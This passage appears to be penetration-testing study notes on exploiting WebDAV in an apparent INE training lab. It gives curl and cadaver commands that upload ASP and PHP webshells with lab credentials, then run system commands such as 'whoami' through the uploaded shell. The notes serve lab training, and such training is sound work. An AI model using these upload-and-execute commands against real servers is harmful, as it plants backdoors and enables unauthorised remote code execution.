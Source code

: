 ### Advanced Methods  
| Method | Purpose | Example Usage |
|--------|---------|---------------|
| **PROPFIND** | Get properties | `curl -X PROPFIND http://target/webdav/` |
| **PROPPATCH** | Set properties | Advanced metadata manipulation |
| **LOCK/UNLOCK** | File locking | Prevent concurrent access |
| **OPTIONS** | Discover methods | `curl -X OPTIONS http://target/webdav/` |

### Manual Exploitation with cURL

#### File Upload (PUT Method)
```bash
# Upload webshell directly
curl -X PUT --data-binary @webshell.asp \
  --user bob:password_123321 \
  http://demo.ine.local/webdav/shell.asp

# Upload with authentication header
curl -X PUT --data-binary @shell.php \
  -H "Authorization: Basic Ym9iOnBhc3N3b3JkXzEyMzMyMQ==" \
  http://demo.ine.local/webdav/shell.php
```

#### Manual Webshell Upload with Cadaver
```bash
# Interactive upload using Cadaver
cadaver http://demo.ine.local/webdav
Username: bob
Password: password_123321

dav:/webdav/> put /usr/share/webshells/asp/webshell.asp
```

#### Remote Code Execution
```bash
# Access webshell via browser/curl
curl "http://demo.ine.local/webdav/webshell.asp?cmd=whoami"
curl "http://demo.ine.local/webdav/webshell.asp?cmd=dir+C:\"
```

#### Directory Operations
```bash
# List directory contents
curl -X PROPFIND --user bob:password_123321 \
  http://demo.ine.local/webdav/

# Detailed property information
curl -X PROPFIND --user bob:password_123321 \
  -H "Depth: 1" \
  http://demo.ine.local/webdav/

# Create new directory
curl -X MKCOL --user bob:password_123321 \
  http://demo.ine.local/webdav/uploads/
```
